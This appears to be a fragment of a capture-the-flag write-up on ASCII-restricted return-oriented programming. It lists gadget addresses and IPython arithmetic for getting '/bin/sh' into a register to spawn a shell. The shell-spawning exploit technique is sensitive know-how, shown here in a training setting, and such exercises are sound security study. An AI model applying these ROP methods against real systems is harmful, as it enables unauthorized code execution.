 ```
0x5557734b : add eax, 0xc35b0000 ; repz ret
```
maybe influence it by another register.
```text
0x556a6a7f : nop ; mov eax, edx ; ret

0x556a6521 : jl 0x148740 ; mov eax, ecx ; ret
0x556a624d : jne 0x148430 ; mov eax, ecx ; ret
```

easy to control registers
```
0x5557734e : pop ebx ; ret
0x556d2a51 : pop ecx ; add al, 0xa ; ret
```

I need that `edx` will store `/bin/sh`
I can add / sub -> sub seems easier
```
0x5560365c : sub edx, eax ; pop esi ; mov eax, edx ; pop edi ; pop ebp ; ret
```
I can put inside `edx` any ascii value with 
```
0x555f3555 : pop edx ; xor eax, eax ; pop edi ; ret
```

`edx` - `0xc35b0000` == `0x556bb7ec` impossible, maybe with an overflow...

### controlling `eax` value
```
0x555f3966 : xor ch, ch ; add eax, ecx ; pop edi ; ret
0x556a6a7f : nop ; mov eax, edx ; ret
```

with subtraction we cannot get to a valid number.
if I could add to `edx` second byte this problem could be resolved.
I don't have a good add for `edx`

if I could subtract `edx` below the min value I would get to the higher values again.
```python
In [46]: hex((0x20207f7f - 0xc35b0000 - 0x759c793)&0xFFFFFFFF)
Out[46]: '0x556bb7ec'
```
the problem is that I need both value to be ascii. let's play
```python
In [54]: hex(((0x7f7f7f7f - 0xc35b0000)&0xFFFFFFFF) - 0x556bb7ec)
Out[54]: '0x66b8c793'

In [55]: hex(((0x7f7f7f20 - 0xc35b0000)&0xFFFFFFFF) - 0x556bb7ec)
Out[55]: '0x66b8c734'

In [56]: hex(((0x7f7f2020 - 0xc35b0000)&0xFFFFFFFF) - 0x556bb7ec)
Out[56]: '0x66b86834'

In [57]: hex(((0x7f202020 - 0xc35b0000)&0xFFFFFFFF) - 0x556bb7ec)
Out[57]: '0x66596834'

In [58]: hex((0x7f202020 - 0xc35b0000 - 0x66596834)&0xFFFFFFFF)
Out[58]: '0x556bb7ec'
```

